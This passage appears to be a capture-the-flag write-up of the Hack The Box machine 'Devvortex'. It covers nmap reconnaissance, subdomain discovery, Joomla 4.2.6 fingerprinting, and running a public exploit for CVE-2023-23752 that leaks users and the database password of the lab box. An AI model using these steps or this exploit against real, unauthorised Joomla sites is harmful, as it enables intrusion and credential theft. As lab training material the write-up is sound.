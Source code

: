 # #1 Introduction
<img width="693" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/5e8a6e39-1b45-4f2d-9c00-e963d999858c">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx devvortex.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- devvortex.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

we found a domain name devvortex.htb in the source code of the page \
by enumerating subdomain, we found a subdomain named dev
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 875ms]

by accessing the robots.txt in dev.devvortex.htb/robots.txt, we found there is a joomla cms running the website \

```bash
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
we found this is a 4.2.6 Joomla \

this version is vulnerable to an unauthenticated information disclosure \
Sources : \
https://www.exploit-db.com/exploits/51334\
https://github.com/Acceis/exploit-CVE-2023-23752\

with the script that can access to api, we can get the current informations \

```
──(parallels㉿kali)-[~/hacking/htb/Devvortex]
└─$ ./51334.py http://dev.devvortex.htb 
Users
[649] lewis (lewis) - lewis@devvortex.htb - Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
